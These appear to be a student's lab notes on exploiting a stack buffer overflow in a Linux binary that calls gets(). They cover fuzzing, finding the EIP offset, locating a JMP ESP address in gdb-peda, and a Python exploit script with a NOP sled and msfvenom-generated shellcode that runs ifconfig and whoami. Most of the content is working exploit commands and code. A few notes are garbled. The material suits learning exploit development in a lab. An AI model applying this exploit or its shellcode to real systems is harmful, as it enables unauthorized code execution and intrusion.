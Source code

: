 exploit - is attacking a vulnerability
payload - is the desired effect like putting a bomb once exploited

Heap – memory that can be allocated and deallocated as needed.
Stack – a contiguous section of memory used for passing arguments to other functions and general housekeeping.

buffer overflow - too much memory 

the gets() is vulnerable to buffer overflow
Ax24  keylength = 20 bits

STACK:
__
|  EAX: AAAAAAAAA
|  EIP: AAAA = JMP ESP
|  ESP: shellcode
|  EBP:
__
HEAP:
__
|
__

Tools for today: GDB for linux and IMMUNITY for windows

DEMO:

`file func` see that its ELF so should look at on linux and not windows
`strings func` see gets which is vulnerable, and enter a string and gcc version it was compiled on, 
a few directories...clue ip addresses might be in here possibly
`./func` tells to enter a string:
`./func "Hello World"` wont work
`./func <<<$(echo "Hello World")` this works and takes message as user input and not command line input. REMEMBER THIS
`./func <<<$(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")` gives a segmentation fault that is overflow
`gdb ./func` open a red prompt by peda
`gdb-peda$ disass main` see functions
`gdb-peda$ disass getuserinput` highlights vulnerable functions in red
`run`

[https://wiremask.eu/
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)https://wiremask.eu/tools/buffer-overflow-pattern-generator/

get random size buffer overflow
`run <<<$(echo "ctrl+shift+v pattern")`
see that overwrote EAX, ESP, and EBX...

look at EIP to get the offset ...***

```
student@lin-ops:~/Downloads$ env - gdb ./func
>>> show env
>>> unset env COLUMS
>>> unset env LINES
>>> show env
```
deletes enviornmental variables 

need to now crash program
```>>> run
>>> enter a string:
>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
>>> segmentation fault 
```
good we wanted it to crash

```
>>> info proc map
>>> find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
```
address after [heap], to end of [stack], JMP, ESP

mybuff.py: 
```
#!/usr/bin/python2.7



#OFFSET

buf = "A" * 62 #OFFSET
'''
memory address fro jmp esp (convert from little ind -> big
0xf7de3b59 -> /x59/x3b/xde/xf7
0xf7f588ab
0xf7f645fb
'''
buf += "/x59/x3b/xde/xf7" #EIP register - JMP ESP
buf += "C" * 20

print(buf)

```


student@lin-ops:~/Desktop/Security$ msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python
student@lin-ops:~/Desktop/Security$ msfvenom -p linux/x86/exec CMD="whoami && ifconfig" -b '\x00' -f python

sometimes doesn't work oops just re-generate the shell code

```
#!/usr/bin/python2.7



#OFFSET

buf = "A" * 62 #OFFSET
'''
memory address fro jmp esp (convert from little ind -> big
0xf7de3b59 -> \x59\x3b\xde\xf7
0xf7f588ab
0xf7f645fb
'''
buf += "\x59\x3b\xde\xf7" #EIP register - JMP ESP
#msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python
buf += "\x90" * 10 #NOP sled
buf += b"\xba\x0b\xa8\x92\x57\xda\xc0\xd9\x74\x24\xf4\x5f"
buf += b"\x31\xc9\xb1\x0c\x83\xc7\x04\x31\x57\x0e\x03\x5c"
buf += b"\xa6\x70\xa2\x08\xbd\x2c\xd4\x9e\xa7\xa4\xcb\x7d"
buf += b"\xa1\xd2\x7c\xae\xc2\x74\x7d\xd8\x0b\xe7\x14\x76"
buf += b"\xdd\x04\xb4\x6e\xd4\xca\x39\x6e\x8e\xac\x5a\x01"
buf += b"\x3e\x57\xf4\xba\xbe\xc0\x55\xcd\x5e\x23\xd9"

print(buf)
```




0xf7def000, 0xffffe000, 

